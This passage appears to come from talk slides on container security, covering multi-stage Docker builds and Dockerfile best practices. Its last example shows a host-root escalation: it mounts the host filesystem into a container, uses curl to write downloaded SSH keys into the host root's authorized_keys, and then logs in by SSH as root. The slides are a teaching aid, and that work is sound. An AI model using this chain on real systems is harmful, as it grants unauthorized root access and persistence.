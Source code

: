 Let's do better...

---
# Multi-stage builds

💡 Idea: separate build-time from run-time!
```docker
ARG GOLANG_VERSION=1.19
FROM golang:${GOLANG_VERSION} as builder # Start a build container stage
COPY go.mod go.sum ./
RUN go mod download
COPY hello.go ./
RUN CGO_ENABLED=0 go build hello.go      # Compile with static dependencies

FROM scratch                             # Start a run-time stage
COPY --from=builder /hello /             # Bring in the built binary
CMD ["/hello"]
```

Ref: https://docs.docker.com/build/building/multi-stage/

---
# Dockerfile best practices

- Use a secure or "golden" base image
- Use multi-stage builds
- Non-root `USER`
- Don't mount sensitive directories
- Don't include sensitive data in the image artifact (even `ARG`)
- Avoid `setuid` binaries
- Include _minimally_ everything that your container needs

Ref: [Container Security][liz] (Rice 2020)

---
# Example: root + host volume mount path

How do you escalate to root? 😈
```
docker run -it --rm -v /:/host ubuntu  # Mount a sensitive directory
id                                     # You're root... in the container
cd /host/root                          # Enter the *host's* filesystem

# Add your keys to the root login
curl https://github.com/allanbreyes.keys > ./.ssh/authorized_keys
```

Remotely enter host as root:
```
ssh root@1.2.3.4
```


[fc]: https://www.amazon.science/publications/firecracker-lightweight-virtualization-for-serverless-applications
[ivan]: https://iximiuz.com/en/posts/containers-distroless-images/
[julia]: https://wizardzines.com/zines/containers/
[liz]: https://www.oreilly.com/library/view/container-security/9781492056690/
[serge]: https://zserge.com/posts/containers/